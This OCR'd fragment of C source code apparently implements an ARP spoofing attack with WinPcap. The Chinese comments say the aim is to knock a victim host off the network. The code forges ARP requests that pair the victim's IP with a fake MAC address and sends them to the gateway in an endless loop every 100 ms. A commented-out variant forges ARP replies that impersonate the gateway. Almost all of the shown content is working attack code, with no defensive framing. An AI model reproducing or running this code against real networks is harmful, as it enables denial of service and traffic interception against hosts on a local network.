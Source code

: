 ```
    printf("Enter the interface number(1-%d):", i);
    scanf("%d", &inum);

    //打开选中的网卡接口
    for (d = alldevs, i = 0; i < inum - 1; i++, d = d->next);
    adhandle = pcap_open(d->name, 65535, PCAP_OPENFLAG_PROMISCUOUS, 1000, NULL, errbuf);

    //填充arp包，这里假设为请求包
    //假设主机X的IP为：192.168.1.101，MAC为：00-00-00-00-00-01
    //我们目的是想让对方断网
    enArpReqPack(&arp,
        "eeeeeeeeeeee",      //源MAC，这里可以设置为假的MAC
        "192.168.1.101",     //源IP，因为欺骗主机X，所以源IP设为主机X的IP
        "ffffffffffff",      //目的MAC，请求的时候要发送广播包，因此是FFFFFFFFFFFF（代表广播）
        "192.168.1.1"        //目的IP，这里设为网关的IP：192.168.1.1
        ,true);              //设为true，表明是请求包

    /*
    //这里假设是应答包
    //同样假设主机X的IP为：192.168.1.101，MAC为：00-00-00-00-00-01
    //假设网关IP为：192.168.1.1，MAC为：00-00-00-00-00-00
    //目的让对方断网
    enArpReqPack(&arp,
    "000000000010",      //源MAC，因为要欺骗对方，所以这里需要使用假的MAC:000000000010
    "192.168.1.1",       //源IP，设为网关的IP：192.168.1.1
    "000000000001",      //目的MAC，因为要欺骗主机X，所以不能设置为主机X的MAC
    "192.168.1.101"      //目的IP，设置为主机X的IP（这个不重要，关键是目的MAC）
    ,false);             //设为false，表明是应答包
    */
    
    //将arp结构体的数据复制到字节数组中，方便发送
    memcpy(szPktBuf, (char*)&arp, sizeof(Arp_Packet));
    
    //pcap_sendpacket(adhandle, (const u_char*)szPktBuf, sizeof(Arp_Packet));

    //使用循环不断的发送arp欺骗包，从而淹没正常的arp请求
    while (true){

        //发送arp数据包
        if (pcap_sendpacket(adhandle, (const u_char*)szPktBuf, sizeof(Arp_Packet)) != 0){
            printf("Error sending the packet:%s\n", pcap_geterr(adhandle));
            return -1;
        }

        //延时
        Sleep(100);
        printf("Send ok\n");
    }

    //扫尾
    pcap_freealldevs(alldevs);
    pcap_close(adhandle);
    return 0;
}


unsigned char charToData(const char ch){
    if (ch > 47 && ch < 58){
        return ch - 48;
    }
    if (ch>64 && ch < 71){
        return ch - 55;
    }
```